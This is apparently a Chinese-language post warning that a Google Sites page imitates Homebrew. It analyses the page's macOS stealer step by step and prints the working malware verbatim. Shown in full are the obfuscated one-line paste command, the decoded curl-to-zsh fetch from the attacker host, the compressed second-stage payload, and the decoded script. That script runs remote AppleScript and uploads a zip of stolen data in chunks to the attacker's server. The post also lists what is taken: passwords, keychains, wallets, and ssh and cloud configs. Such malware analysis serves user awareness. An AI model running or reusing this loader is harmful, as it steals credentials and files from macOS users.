



# 遇到了一个假 homebrew



这个是假的⬇ ️

<https://sites.google.com/view/brewpage>



这个才是真的⬇ ️

<https://brew.sh>



真 homebrew 的安装命令是：

```bash
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"
```

真 homebrew 要执行的代码在 github 上 <https://github.com/Homebrew/install/blob/main/install.sh>

假 homebrew 想让用户执行

```bash
echo 'ZWNobyAnVmVyaWZpY2F0aW9uIHBsZWFzZSB3YWl0Li4uJyAmJiBjdXJsIC1rZnNTTCBodHRwOi8vZ2xvd21lZGFlc3RoZXRpY3MuY29tL2N1cmwvNjM4MTBlZThiNDc4NTc1ZjNiMmM2YzQ2MTYwYzFmZDMzOGIyMTNjNmZjMTFiYjAwNjlkYWM5YmJiN2RiMjM3ZHx6c2g='|base64 -D|zsh
```

解码后是：

```bash
echo 'Verification please wait...' && curl -kfsSL http://glowmedaesthetics.com/curl/63810ee8b478575f3b2c6c46160c1fd338b213c6fc11bb0069dac9bbb7db237d|zsh
```

curl 多了 `-k` 参数，表示不验证 SSL 证书，直接访问 http 协议的链接。

链接对应的代码是：

```bash
#!/bin/zsh
d29460=$(base64 -D <<'PAYLOAD_m18163094419369' | gunzip
H4sIAC1672kAA91WW2/bNhR+9684VRVDasBIsmLZuahp0AVoUKQdkgYL1hWGRFI2Yd1mUovjtv99
lCVLlGxge9nL+CLz8ON37od+/coKWWpt+GJAAppk6SwqUixYlhomfB+AXHRNMVxahP5lpUUct7K3
B2SjnjDOcBADyZKApb42j7PnhEpFXCyoYJif4CzRFKDIllTiPHfq2JROw9PJdDwZR244wh4+9RzP
xk5EXHcajhwXexF2nDC0be+MBPgsDMMJCUfuhKiUQc5mS/ria2PnzKaRM3FdZ+oGNsGeG4XeyHXH
k2jsEU+9FLGY+polktzKeBBn8zlL5ycbllcgFsFX0F8Dmguw4dsFSHfS7Um5cLGKAS0BcUAoCdZI
sISCa8MfDaRc6ANoj5yu0PWcpuIc7rINi+PAGp/YYNwFmKUi44sLuE0FjUEK4PMDPIFjz5zxbGLC
dZ7H9DcafmTCGruTE9fTDmiQ7iPp/jnodSD6IG0hRH5uWXqVJIu8pEHC8JVYE1/f5mOYP8ufjgY/
QAaD4xXLRZXxmNP/rdf77kZMSf4VoJQeSD5dMwFOH/8VXgGKQNPLwpLMP8o9b/bf+iwrKopV2uWp
KvP9h8dPH2cPt7/f+LphODa8kbEZndYf01Sgd9dPs/ubL/e3Nw/+VJEXeZwFZMakpwYJBIXjI24i
3chymnIewypICaAFXcNU7efSaooXGej3159++XxXf8xO+4ognnG2qcqi3UpNXASijMHRpnG7R14h
MBw1gTGVAKLyXsu4DWJXgOifZUL+fSyry3hRpEteRhOMlg6OlVADAscES5V0Is18e7t7XkirQRIx
uOywS/iFnIKNTdW1LIo4FaVmJvPXktfcLXBLUgeyhTUgqbCikka3UHirJEAaAMNhh8hQvUU1w55q
XmBMOa8dbOWBEDTJhe808sb5+ggufbUES/U1Gfi+TFQvJOUqm3KGM1JaR4hMvL8rlZD7DvAly329
dhVnRSpjp/jbKadev5dLnVBP8OvjlwMYhGRHBEi+icHqBd6hQ5D/fILttPzjFKssboatM+1P2y0g
gzYuB46fQTv63kT+5yEd/Wk5l1PjKixYTJRXQhkrzc9hlR6WErr2dTbsdpy660wDs2NBmbdZORwK
eeeqc1SNBl1B1FNAFpve+CTfaVkd9p40FvJ9OjAxdmtX+07npPPq7ZZh1FV/fGya+0QxpTnIjnNl
h+7a4w2MetB6OJWLZGmrRHop22qvefZs7ky6HqGcMY1pDfkqUV6lgUJhD34OpNbeX0KJfKfBsFW8
fezsQROR+vGL2N9ERPg1VwoAAA==
PAYLOAD_m18163094419369
)
eval "$d29460"
```

base64 解码后是二进制数据

再通过 gunzip 解压后得到：

```bash
#!/bin/zsh
daemon_function() {
    exec </dev/null
    exec >/dev/null
    exec 2>/dev/null
    local domain="glowmedaesthetics.com"
    local token="63810ee8b478575f3b2c6c46160c1fd338b213c6fc11bb0069dac9bbb7db237d"
    local api_key="5190ef1733183a0dc63fb623357f56d6"
    local file="/tmp/osalogging.zip"
    if [ $# -gt 0 ]; then
        curl -k -s --max-time 30 \
            -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36" \
            -H "api-key: $api_key" \
            "http://$domain/dynamic?txd=$token&pwd=$1" | osascript
    else
        curl -k -s --max-time 30 \
            -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36" \
            -H "api-key: $api_key" \
            "http://$domain/dynamic?txd=$token" | osascript
    fi
    if [ $? -ne 0 ]; then
        exit 1
    fi
    if [[ ! -f "$file" || ! -s "$file" ]]; then
        return 1
    fi
    local CHUNK_SIZE=$((10 * 1024 * 1024))
    local MAX_RETRIES=8
    local upload_id=$(date +%s)-$(openssl rand -hex 8 2>/dev/null || echo $RANDOM$RANDOM)
    local total_size
    total_size=$(stat -f %z "$file" 2>/dev/null || stat -c %s "$file")
    if [[ -z "$total_size" || "$total_size" -eq 0 ]]; then
        return 1
    fi
    local total_chunks=$(( (total_size + CHUNK_SIZE - 1) / CHUNK_SIZE ))
    local i=0
    while (( i < total_chunks )); do
        local offset=$((i * CHUNK_SIZE))
        local chunk_size=$CHUNK_SIZE
        (( offset + chunk_size > total_size )) && chunk_size=$((total_size - offset))
        local success=0
        local attempt=1
        while (( attempt <= MAX_RETRIES && success == 0 )); do
            http_code=$(dd if="$file" bs=1 skip=$offset count=$chunk_size 2>/dev/null | \
                curl -k -s -X PUT \
                --data-binary @- \
                -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36" \
                -H "api-key: $api_key" \
                --max-time 180 \
                -o /dev/null \
                -w "%{http_code}" \
                "http://$domain/gate?buildtxd=$token&upload_id=$upload_id&chunk_index=$i&total_chunks=$total_chunks" 2>/dev/null)
            curl_status=$?
            if [[ $curl_status -eq 0 && $http_code -ge 200 && $http_code -lt 300 ]]; then
                success=1
            else
                ((attempt++))
                sleep $((3 + attempt * 2))
            fi
        done
        if (( success == 0 )); then
            return 1
        fi
        ((i++))
    done
    rm -f "$file"
    return 0
}
if daemon_function "$@" & then
    exit 0
else
    exit 1
fi
```

`daemon_function "$@" &` 用于在后台执行 `daemon_function` 函数

函数的功能是从服务器下载代码并通过 osascript 执行，然后上传结果。

`http://$domain/dynamic?txd=$token&pwd=$1` 返回的代码 <https://github.com/iuy1/zhihu/blob/main/fake-brew/script.md>

代码的功能大概是诱导用户输入 sudo 密码，然后打包：

- 浏览器、各种桌面加密货币钱包、Telegram、Keychain 的隐私数据
- ssh、aws、kube 的配置文件
- Desktop、Documents、Downloads 目录下的文件（总大小有上限）
